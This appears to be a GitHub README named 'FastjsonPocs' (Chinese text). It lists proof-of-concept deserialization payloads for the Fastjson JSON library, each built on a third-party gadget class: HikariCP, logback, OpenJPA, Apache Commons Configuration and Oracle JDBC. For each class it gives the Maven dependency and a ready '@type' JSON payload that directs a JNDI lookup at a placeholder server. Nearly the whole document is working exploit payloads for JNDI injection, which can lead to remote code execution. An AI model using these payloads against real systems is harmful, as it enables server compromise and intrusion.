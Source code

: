 # FastjsonPocs

一些结合第三方组件的Fastjson POC，在1.2.48以后版本中陆续被添加至黑名单。

### com.zaxxer.hikari.HikariConfig:

```
  <dependency>
      <groupId>com.zaxxer</groupId>
      <artifactId>HikariCP</artifactId>
      <version>3.3.1</version>
  </dependency>

```

>   {"@type":"com.zaxxer.hikari.HikariConfig","metricRegistry":"JNDI_SERVER"}

### ch.qos.logback.core.db.JNDIConnectionSource:

```
  <dependency>
      <groupId>ch.qos.logback</groupId>
      <artifactId>logback-core</artifactId>
      <version>1.2.2</version>
  </dependency>

```

>   {"@type":"ch.qos.logback.core.db.JNDIConnectionSource","jndiLocation":"JNDI_SERVER"}

### org.apache.openjpa.ee.

```
  <dependency>
      <groupId>org.apache.openjpa</groupId>
      <artifactId>openjpa</artifactId>
      <version>3.0.0</version>
  </dependency>

```

>   {"@type":"org.apache.openjpa.ee.JNDIManagedRuntime","transactionManagerName":"JNDI_SERVER","rollbackOnly":null}
>   {"@type":"org.apache.openjpa.ee.RegistryManagedRuntime","registryName":"JNDI_SERVER","rollbackOnly":null}

### org.apache.commons.configuration.JNDIConfiguration

```
  <dependency>
      <groupId>commons-configuration</groupId>
      <artifactId>commons-configuration</artifactId>
      <version>1.10</version>
  </dependency>

```

>   {"@type":"org.apache.commons.configuration.JNDIConfiguration","prefix":"JNDI_SERVER"}

### org.apache.commons.configuration2.JNDIConfiguration

```
  <dependency>
      <groupId>org.apache.commons</groupId>
      <artifactId>commons-configuration2</artifactId>
      <version>2.2</version>
  </dependency>

```

>   {"@type":"org.apache.commons.configuration2.JNDIConfiguration","prefix":"JNDI_SERVER"}

### oracle.jdbc.rowset.OracleJDBCRowSet

```
  <dependency>
      <groupId>com.oracle.ojdbc</groupId>
      <artifactId>ojdbc8</artifactId>
      <version>19.3.0.0</version>
  </dependency>

```

>   {"@type":"oracle.jdbc.rowset.OracleJDBCRowSet","dataSourceName":"JNDI_SERVER","command":"test"}
